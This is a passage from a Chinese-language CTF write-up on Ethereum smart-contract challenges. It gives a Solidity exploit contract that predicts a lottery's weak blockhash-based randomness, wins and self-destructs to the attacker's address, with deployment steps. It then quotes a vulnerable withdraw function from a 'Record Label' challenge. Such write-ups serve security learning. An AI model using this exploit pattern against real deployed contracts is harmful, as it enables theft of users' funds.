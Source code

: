 ```
            msg.sender.transfer(payout);
        `}`
    `}`    


`}`
```

可以发现这里transfer 需要 首先转账大于 1 finney

后面就是比较经典的漏洞。随机数预测 只需要直接照抄即可。

可能前面大家会发现合约调用发现revert问题，是因为没有给予做题权限，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://md.byr.moe/uploads/upload_0c386bfafbc469e61342a46f8fb36d84.png)

我们要在这里的`ctf_challenge`给我们的合约一个做题权限。

给出exp

```
contract hack`{`
    address target=challenge address;
    Lottery A=Lottery(target);
    constructor()payable`{``}`
    function exp()payable`{`
        bytes32 entropy = block.blockhash(block.number);
        bytes32 entropy2 = keccak256(this);
        uint256 seeds = uint256(entropy^entropy2);
        A.play.value(1 finney)(seeds);
        selfdestruct(your address);
    `}`
    function() payable`{``}`
`}`
```

首先 带 2finney 部署 然后调用ctf_challenge 再调用exp就可以了。

## [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://md.byr.moe/uploads/upload_15f2da9cc50fcdace4bc4f3a1aa85d62.png)



## Record Label

这里主要是逻辑问题。

代码段比较长我这里只做部分摘取

```
function withdrawFundsAndPayRoyalties(uint256 _withdrawAmount) external ctf`{`
        require(_withdrawAmount&lt;=funds, "Insufficient Funds in Contract");
        funds = funds.sub(_withdrawAmount);
        royalties.call.value(_withdrawAmount)();
        uint256 royaltiesPaid = Royalties(royalties).getLastPayoutAmountAndReset();
        uint256 artistPayout = _withdrawAmount.sub(royaltiesPaid); 
        msg.sender.transfer(artistPayout);
    `}`
```
